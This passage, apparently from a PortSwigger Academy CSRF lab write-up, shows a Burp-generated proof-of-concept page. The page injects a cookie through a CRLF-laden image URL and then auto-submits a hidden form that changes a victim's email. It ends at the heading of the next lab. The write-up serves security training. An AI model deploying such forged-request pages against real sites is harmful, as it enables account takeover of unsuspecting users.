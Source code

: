```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/');</script>
    <form action="https://0a5100e704c97ef381c0fd29005a0070.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;com&#46;vn" />
      <input type="hidden" name="csrf" value="wRIe5w5zqS456jIGu5ix3mDnKtTFnmfi" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5100e704c97ef381c0fd29005a0070.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YjDqh0pgDKAlu5xMpug8xjaRBw3hX3OM%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

![image-20250602212445484](./image/image-20250602212445484.png)



### [Lab 5: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

Lab des:
